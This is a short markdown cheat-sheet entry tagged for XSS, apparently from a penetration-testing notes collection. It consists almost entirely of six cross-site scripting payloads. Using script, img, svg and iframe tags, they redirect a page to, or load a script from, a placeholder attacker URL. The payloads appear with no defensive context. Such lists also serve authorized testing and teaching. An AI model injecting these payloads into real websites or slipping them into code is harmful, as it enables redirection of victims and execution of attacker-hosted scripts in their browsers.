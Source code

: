 # HTML Attributes

Search Tag(s): #helpers #xss

- A list of payloads to inject links

```
<script>document.location="http[s]://<attacker_URL>/script.js"</script>
<script>window.location="http[s]://<attacker_URL>/script.js"</script>
<script src="http[s]://<attacker_URL>/script.js"></script>
<img src="http[s]://<attacker_URL>/script.js">
<svg src="http[s]://<attacker_URL>/script.js">
<iframe src="http[s]://<attacker_URL>/script.js">
```